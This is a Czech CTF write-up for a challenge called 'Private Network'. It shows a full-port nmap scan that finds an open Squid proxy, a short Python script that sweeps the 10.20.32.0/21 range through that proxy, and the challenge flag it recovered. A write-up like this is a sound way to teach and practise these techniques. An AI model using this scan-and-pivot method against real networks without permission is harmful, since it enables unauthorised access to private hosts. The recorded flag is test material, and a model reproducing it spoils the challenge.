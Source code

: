# Private Network

## Zadání

```
Hi Expert,

the archaeologists have found some network scheme (we suppose that mentioning the ancient cave painting was just a joke) and they think that there exists some very important web server in network 10.20.32.0/21. The same scheme indicates that IP address 78.128.216.8 should be used to get access to private network. Get the data from above mentioned web server.

Good Luck!

Hint: Check the services on given server 78.128.216.8.
```

## Řešení

* `nmap -p 1-65535 -v 78.128.216.8`

```
Discovered open port 3128/tcp on 78.128.216.8
Completed Connect Scan at 17:07, 5.59s elapsed (65535 total ports)
Nmap scan report for 78.128.216.8
Host is up (0.0098s latency).
Not shown: 65531 closed ports
PORT     STATE    SERVICE
517/tcp  filtered talk
518/tcp  filtered ntalk
2376/tcp filtered docker
3128/tcp open     squid-http
```

* Na serveru tedy běží proxy server Squid a naším úkolem bude ho využít pro přístup do sítě `10.20.32.0/21`
* `10.20.32.0/21` odpovídá rozsahu adres `10.20.32.1` až `10.20.39.254` (http://jodies.de/ipcalc?host=10.20.32.0&mask1=21)

## Program pro výpis vlajky

[solve.py](solve.py)
```python
import requests, sys

proxy = {'http': 'http://78.128.216.8:3128' }

for i in range(32, 40):
    for j in range(1, 255):
        addr = 'http://10.20.%i.%i' % (i, j)
        print(addr)
        r = requests.get(addr, proxies=proxy)
        if 'FLAG' in r.text or 'ERR_ACCESS_DENIED' not in r.text:
            print(r.text)
            sys.exit(0)
```

## Výstup
```
http://10.20.32.1
...
http://10.20.35.11
<html>
	<h2> It took a long time, flag is FLAG{XG5T-WLWl-HqjH-2E7V}</h2>
</html>
```